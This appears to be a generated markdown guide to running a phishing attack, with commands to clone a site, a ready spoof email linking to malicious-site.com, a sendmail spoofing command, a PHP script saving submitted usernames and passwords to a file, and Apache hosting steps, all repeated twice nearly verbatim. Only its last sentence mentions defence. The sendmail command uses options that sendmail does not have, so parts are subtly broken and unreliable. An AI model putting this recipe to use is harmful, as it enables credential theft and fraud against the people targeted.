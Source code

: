 # Summary
Phishing is a social engineering attack often used to steal user data, including login credentials and credit card numbers. It occurs when an attacker, masquerading as a trusted entity, dupes a victim into opening an email, instant message, or text message. The recipient is then tricked into clicking a malicious link, which can lead to the installation of malware, the freezing of the system as part of a ransomware attack, or the revealing of sensitive information.

Here's an overview of how a typical phishing attack might be executed:

1. **Preparation:** Craft a convincing email that appears to be from a trusted source, such as a bank, social media site, or a colleague.
2. **Delivery:** Send the email to the target(s), often using techniques to bypass spam filters and increase the likelihood of it being opened.
3. **Deception:** The email usually contains a message urging the recipient to take immediate action, such as verifying account information or resetting a password.
4. **Exploitation:** When the recipient clicks on the link in the email, they are redirected to a fake website that mimics a legitimate one, where they are asked to enter their personal information.
5. **Execution:** Once the user submits their information, it is captured by the attacker, who can then use it for malicious purposes.

# Execution
To execute a phishing attack, an attacker typically follows these steps:

1. **Create a Fake Website:** Develop a website that closely resembles the legitimate site the attacker is spoofing.
2. **Craft the Phishing Email:** Write an email that appears to be from the trusted entity, using logos, color schemes, and language that match the original.
3. **Send the Email:** Use email spoofing techniques to make the email appear to come from the trusted source, and send it to the target(s).
4. **Harvest Credentials:** When the target enters their information on the fake site, the attacker captures this data.

#### Step 1: Create a Fake Website

1. **Clone the Legitimate Website:** Use a tool like `HTTrack` to clone the legitimate website.

```
httrack http://example.com -O /path/to/clone
```

2. **Modify the Clone:** Make necessary changes to the cloned website to ensure that the form actions point to a server controlled by the attacker, where the credentials will be sent.

#### Step 2: Craft the Phishing Email

1. **Create the Email Content:** Write a convincing email that mimics the communication style of the trusted entity.

```
Subject: Urgent: Account Verification Needed

Dear Customer,

We have noticed suspicious activity on your account. Please click the link below to verify your account information.

[Verify Account](http://malicious-site.com)

Thank you,
Trusted Entity Support Team
```

2. **Spoof the Email Address:** Use tools like `sendmail` or services like `SendGrid` to spoof the sender's email address.

#### Step 3: Send the Email

1. **Send the Email Using a Spoofing Tool:**

```
sendmail -f "support@trustedentity.com" -t target@example.com -u "Urgent: Account Verification Needed" -m "Dear Customer,\n\nWe have noticed suspicious activity on your account. Please click the link below to verify your account information.\n\n[Verify Account](http://malicious-site.com)\n\nThank you,\nTrusted Entity Support Team"
```

#### Step 4: Harvest Credentials

1. **Set Up a Server to Capture Credentials:** Use a tool like `PHP` to capture the credentials entered on the fake website.

```
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $username = $_POST['username'];
    $password = $_POST['password'];
    file_put_contents("creds.txt", "Username: $username\nPassword: $password\n", FILE_APPEND);
}
?>
```

2. **Host the Fake Website:** Deploy the modified clone and the credential harvesting script on a web server.

```
# Example using Apache
sudo cp -r /path/to/clone /var/www/html/
sudo systemctl restart apache2
```

# Example Execution
Below is a simplified walkthrough of how an attacker might execute a phishing attack:

#### Step 1: Create a Fake Website

1. **Clone the Legitimate Website:**

```
httrack http://example.com -O /path/to/clone
```

2. **Modify the Clone:** Ensure form actions point to a credential harvesting script.

#### Step 2: Craft the Phishing Email

1. **Create the Email Content:**

```
Subject: Urgent: Account Verification Needed

Dear Customer,

We have noticed suspicious activity on your account. Please click the link below to verify your account information.

[Verify Account](http://malicious-site.com)

Thank you,
Trusted Entity Support Team
```

2. **Spoof the Email Address:**

```
sendmail -f "support@trustedentity.com" -t target@example.com -u "Urgent: Account Verification Needed" -m "Dear Customer,\n\nWe have noticed suspicious activity on your account. Please click the link below to verify your account information.\n\n[Verify Account](http://malicious-site.com)\n\nThank you,\nTrusted Entity Support Team"
```

#### Step 3: Send the Email

1. **Send the Email Using a Spoofing Tool:**

```
sendmail -f "support@trustedentity.com" -t target@example.com -u "Urgent: Account Verification Needed" -m "Dear Customer,\n\nWe have noticed suspicious activity on your account. Please click the link below to verify your account information.\n\n[Verify Account](http://malicious-site.com)\n\nThank you,\nTrusted Entity Support Team"
```

#### Step 4: Harvest Credentials

1. **Set Up a Server to Capture Credentials:**

```
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $username = $_POST['username'];
    $password = $_POST['password'];
    file_put_contents("creds.txt", "Username: $username\nPassword: $password\n", FILE_APPEND);
}
?>
```

2. **Host the Fake Website:**

```
# Example using Apache
sudo cp -r /path/to/clone /var/www/html/
sudo systemctl restart apache2
```

By following these steps, an attacker can execute a phishing attack to deceive the target into providing sensitive information. It is important to recognize and understand these methods to effectively defend against them.